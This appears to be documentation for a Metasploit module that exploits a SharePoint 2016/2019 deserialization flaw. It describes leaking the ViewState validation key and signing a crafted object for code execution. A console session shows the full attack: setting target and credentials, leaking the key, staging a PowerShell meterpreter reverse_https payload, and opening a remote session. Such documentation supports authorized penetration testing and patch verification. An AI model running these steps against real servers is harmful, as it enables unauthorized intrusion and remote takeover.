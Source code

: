 ## Vulnerable Application

### Description

The `EditingPageParser.VerifyControlOnSafeList` method fails to properly validate user supplied data. This can be
leveraged by an attacker to leak sensitive information in rendered-preview content. This module will leak the ViewState
validation key and then use it to sign a crafted object that will trigger code execution when deserialized.

The check method is unauthenticated and will determine whether or not the target service is vulnerable via the version
number. The exploit however requires authentication in order to trigger the vulnerability. See the documentation for the
[HttpUsername](#httpusername) option below for details on the account.

This vulnerability was patched in May of 2021.

Tested against SharePoint 2019 and SharePoint 2016, both on Windows Server 2016.

### Setup

Follow [Microsoft's
documentation](https://docs.microsoft.com/en-us/sharepoint/install/install-sharepoint-server-2016-on-one-server).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### Windows Command

This executes a Windows command.

### Windows Dropper

This uses a Windows dropper to execute code.

### PowerShell Stager

This uses a PowerShell stager to execute code.

## Options

### HttpUsername

Set this to the SharePoint username. This user must have the `SPBasePermissions.ManageLists` permission on the targeted
SharePoint site. By default, SharePoint users may create their own site where they will have this permissions however
this action **is not automatically performed** by this module.

### HttpPassword

Set this to the SharePoint password.

### VALIDATION_KEY

Set this to the ViewState validation key if you have it.

### COOKIE

Set this to a SharePoint cookie if you have one. This is primarily useful for form auth.

### SP_LIST

Set this to the title of any valid SPlist on the targeted SharePoint site. The `Documents` SPlist is typically a safe
option. The available SPlist items can be seen listed on the `/_layouts/15/viewlsts.aspx` page.

## Scenarios

### SharePoint 2019 on Windows Server 2016

```
msf6 exploit(windows/http/sharepoint_unsafe_control) > set RHOSTS 192.168.159.46
RHOSTS => 192.168.159.46
msf6 exploit(windows/http/sharepoint_unsafe_control) > set VHOST shrpnt2019
VHOST => shrpnt2019
msf6 exploit(windows/http/sharepoint_unsafe_control) > set HttpUsername aliddle
HttpUsername => aliddle
msf6 exploit(windows/http/sharepoint_unsafe_control) > set HttpPassword Password1
HttpPassword => Password1
msf6 exploit(windows/http/sharepoint_unsafe_control) > check
[*] 192.168.159.46:80 - The target appears to be vulnerable. SharePoint 16.0.0.10337 is a vulnerable build.
msf6 exploit(windows/http/sharepoint_unsafe_control) > exploit

[*] Started HTTPS reverse handler on https://192.168.159.128:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. SharePoint 16.0.0.10337 is a vulnerable build.
[*] Leaking the ViewState validation key...
[+] ViewState validation key: F894731BF335C2DAB04D70773B5F6BE55EE2C4052B671EE3C6785497A3D29A94
[*] Executing PowerShell Stager for windows/x64/meterpreter/reverse_https
[*] https://192.168.159.128:8443 handling request from 192.168.159.46; (UUID: a5re3jes) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.159.128:8443 -> 127.0.0.1) at 2021-06-08 15:08:59 -0400

meterpreter > getuid
Server username: SHRPNT\SharePoint
meterpreter > sysinfo
Computer        : SHRPNT2019
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : SHRPNT
Logged On Users : 11
Meterpreter     : x64/windows
meterpreter > 
```
